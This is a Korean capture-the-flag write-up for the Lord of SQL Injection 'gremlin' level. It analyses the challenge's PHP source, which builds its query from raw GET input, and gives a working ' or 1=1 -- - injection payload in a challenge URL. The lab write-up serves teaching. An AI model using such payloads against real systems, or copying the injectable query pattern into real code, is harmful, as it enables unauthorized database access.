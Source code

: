 # Lord of SQL Injection No.1 - gremlin
## 문제 출제 의도 
가장 기초적인 SQL Injection을 통하여 문법을 조작할 수 있는지 확인한다.
## 소스 코드 분석
```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
```php
include "./config.php"; 
login_chk(); 
dbconnect(); 
```
+ config.php 파일을 불러와서 파일에 적용시킨다.
+ login_chk()함수는 로그인을 체크하는 기능을 한다고 추정할 수 있다.
+ dbconnect()함수는 데이터베이스에 연결하는 기능을 한다고 추정할 수 있다.

~~~
if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
~~~
+ GET방식으로 pw와 id를 받으며, id나 pw에 `prob`,`_ ` ,`.`, `()`가 들어있으면 문제 풀이에 실패한다. 
### preg_match
~~~
int preg_match ( string $pattern , string $subject [, array &$matches [, int $flags [, int $offset ]]] )
~~~
+ preg_match 함수는 문자열에서 정규표현식 매치를 수행한다.
+ 반환값은 매치된 횟수인데 0 아니면 1이다. 처음 매치를 하고 종료하기 때문이다.
## Solution
~~~
$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
echo "<hr>query : <strong>{$query}</strong><hr><br>";
$result = @mysql_fetch_array(mysql_query($query));
if($result['id']) solve("gremlin");
~~~
+ GET 방식으로 받은 id와 pw가 직접 쿼리문으로 삽입된다.(SQL Injection 가능)
+ 문제 풀이 성공 조건은 데이터 베이스에서 받은 id값에 false값을 제외한 어떠한 값이라도 들어있으면 성공한다.

1. WHERE 조건절 무력화
+ 쿼리 스트링을 붙여준다.
~~~
http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=' or 1=1 -- -
~~~
~~~
select id from prob_gremlin where id='' or 1=1 -- - (and pw = '')
이것은 where 조건절을 항상 참으로 만드므로 prob_gremlin 테이블의 모든 id 값을 가져온다. 
~~~